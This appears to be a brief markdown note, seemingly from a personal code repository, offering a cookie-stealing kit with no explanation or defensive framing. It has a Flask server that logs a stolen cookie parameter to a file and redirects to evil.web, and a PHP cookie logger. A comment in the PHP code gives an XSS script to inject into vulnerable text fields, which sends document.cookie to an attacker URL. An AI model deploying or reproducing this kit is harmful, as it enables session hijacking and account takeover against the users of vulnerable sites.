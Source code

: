 ## FLASK
> Its my favorite. Light and flexible

Requirements:
- sudo apt-get install python-virtualenv 
- sudo apt-get install python-pip
- virtualenv --version
- pip install Flask

```
from flask import Flask, request, redirect
from datetime import datetime

app = Flask(__name__) # create the instance

@app.route('/') # directorio home
def cookie():

        #cookie = str(request.args.get('c'))
        f = open("dirty_data.txt",'a')
        kaka = (str(request.args.get('c')) + ' ' + str(datetime.now()) + '\n')
        f.write(kaka)
        f.close()

        return redirect("http://evil.web/n0thing_t0_d0_here.txt") #simple redirection

if __name__ == "__main__":
        app.run(host = '0.0.0.0', port=4444) # default host = '0.0.0.0', port=5000
        
```

## PHP

```
<?php
	$cookie = $_GET[" c"];
	$file = fopen('cookielog.txt', 'a');
	fwrite($file, $cookie . "\n\n");
	/* 
	inject 
	<script language="javascript"> document.location= " http://evil.web/cookiegrab.php?c=" + document.cookie; </script>
	into vulnerable text fields
	*/
?> 
```
